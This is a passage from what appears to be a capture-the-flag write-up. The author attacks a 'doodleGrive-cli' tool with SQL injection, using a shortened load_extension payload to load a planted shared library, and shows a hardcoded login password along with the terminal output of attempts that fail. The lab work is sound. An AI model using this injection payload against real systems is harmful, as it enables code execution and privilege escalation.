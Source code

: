 ```
5. activate user account  
6. Exit  
Select option:
```

Dang. We need to shorten it even more. How about to just one letter? Now the payload is this:
```
",load_extension(char(46,47,115));--
```

Renaming the shared library to "s," and retrying the exploit:
```
tom@drive:~$ ./doodleGrive-cli    
[!]Caution this tool still in the development phase...please report any issue to the development team[!]  
Enter Username:  
moriarty  
Enter password for moriarty:  
findMeIfY0uC@nMr.Holmz!  
Welcome...!  
  
doodleGrive cli beta-2.2:    
1. Show users list and info  
2. Show groups list  
3. Check server health and status  
4. Show server requests log (last 1000 request)  
5. activate user account  
6. Exit  
Select option: 5  
Enter username to activate account: ",load_extension(char(46,47,115));--  
Activating account for user '",load_extension(char(46,47,115))--'...  
Error: near ",": syntax error  
  
doodleGrive cli beta-2.2:    
1. Show users list and info  
2. Show groups list  
3. Check server health and status  
4. Show server requests log (last 1000 request)  
5. activate user account  
6. Exit  
Select option: 5  
Enter username to activate account: ",load_extension(char(46,47,115));--    
Activating account for user '",load_extension(char(46,47,115))--'...  
Error: near ",": syntax error  
  
doodleGrive cli beta-2.2:    
1. Show users list and info  
2. Show groups list  
3. Check server health and status  
4. Show server requests log (last 1000 request)  
5. activate user account  
6. Exit  
Select option:
```

